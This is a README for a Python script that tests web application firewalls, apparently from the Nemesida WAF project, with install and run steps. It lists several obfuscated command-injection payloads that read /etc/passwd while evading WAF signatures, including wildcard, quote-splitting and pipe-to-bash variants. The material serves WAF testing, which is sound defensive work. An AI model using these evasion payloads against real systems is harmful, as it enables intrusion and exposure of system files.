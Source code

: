 # WAF Bypass script

WAF bypass script written in Python3 is designed to test WAF.

A script developed for internal needs, including for testing Nemesis WAF and Nemesida WAF Free, but you can use it to test any WAF.

Do not break the law when using!

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free skips the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' |awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

<pre>
mkdir /opt/waf-bypass/
git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
python3 -m pip install -r /opt/waf-bypass/requirements.txt
cd /opt/waf-bypass/

python3 /opt/waf-bypass/main.py
</pre>

